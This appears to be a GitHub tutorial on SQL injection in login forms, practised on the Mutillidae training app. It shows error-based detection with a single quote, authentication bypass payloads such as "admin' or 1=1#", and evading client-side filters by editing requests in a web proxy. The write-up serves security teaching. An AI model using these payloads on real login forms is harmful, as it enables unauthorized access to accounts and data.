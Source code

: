 ### SQL Injection In Login Forms

* SQLinjection is a type of vulnerability which gives the attacker access to a database where sensitive information is stored.
* The attacker will execute malicious code, as to retreive information from the database or to even destroy using the drop statement.

* In this tutorial i will be using the mutillidae platform.

---

### Discovering SQL Injections in Post

* Our first step in SQL injection is finding out if the site is infact vulnerable to SQLi.
* To do this we need to look for parameters in the url or text fields e.g. for username and password. We have to try and break the statement.
* We can use and, ', ", . and various other characters to break the statement.


* Ok so now i'm going to try and break the sql query in the login form.
* I first created user account on the page now i'm going bypass authentication.

'''
Name: noone
Password: '
'''

* What i did here was use my username noone that i created to in registeration process and a single quote in the password field.
* This broke the sql query as i have recieved a sql 

```
Error executing query: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

* The above is the message i recieved for the error.

* Plus the server gives me some diagonstic information.

```
SELECT * FROM accounts WHERE username='noone' AND password='''
```

* Most websites will not have this verbose information on the error. Most sites might have some parts of the pages missing etc.

* The database automatically creates quotes around our input. So in the case of the single quotes it wrapped that around with two  single quotes giving it a error as there is now three single quotes.

* Now i'm going to bypass authentication but first we need to visualize

```
SELECT * FROM accounts WHERE username='noone' AND password='noone'
```

* The statement above is the one that executes at backend database.
* So what i'm going to try and see is if i give the correct username and password with a false statement would it allow me login

```
Name: noone
Password: noone' and 1=2#
```

* So what i did from above is test my username and password which are both correct followed by false statement with and 1=2 with comment.
* The comment is used to comment out the single quote and this doesn't get run by the backend database.

* The database query will look something like this.

```
SELECT * from account where username='noone' AND password='noone' and 1=2#'
```

* This will not login me as with the and statement both statements need to be true to become executed but 1=2 is not true, so therefore i cannot login.

 
---

### Bypassing Login using SQL injection

* In this part i'm going to use a method to bypass authentication using the admin username and the or statement.
* So we already know the sql query used for the login.

```
SELECT * from accounts WHERE username='$USERNAME' AND password='$PASSWORD'
```

* Here what we can do is login with username admin and combine that with any password followed by a true or statement.

```
Username: admin
Password: 111' or 1=1#
```

* The SQL Query will look something like this.
```
SELECT * FROM accounts WHERE username='admin' and password='111' or 1=1#'
```

* This is statement will execute as for or statements only one statment needs to be true for the whole query to be true.

```
Logged In Admin: admin (Monkey!)
```
 
---

### Bypassing More Secure Logins Using SQL Injections

* In this section i will have to bypass some sort of filtering. As i set the security level to 1 before it was 0.
* When i try the previous methods on this login form

```
Username: admin
Password: 111' or 1=1#
```

* The following message is displayed.

```
Dangerous characters detected. We can't allow these. This all powerful blacklist will stop such attempts.

Much like padlocks, filtering cannot be defeated.

Blacklisting is l33t like l33tspeak.
```

* Now we first need to find out if the filtering is happening in the client side or the server side.
* If the filtering is happening on the client side we can bypass this by using web proxy e.g. burp, zap etc.

* So i first capture the request after i enter in the details in the for the username and password.

```
Username: admin
Password: 111
```
* Actually it looks like numbers are filtered as well so we have to change the password.
```
Username: admin
Password: admin
```

* Now we capture the request and in the web proxy we change the password field.
```
Username: admin
Password: admin' or 1=1#
```

* Which should bypass authentication.

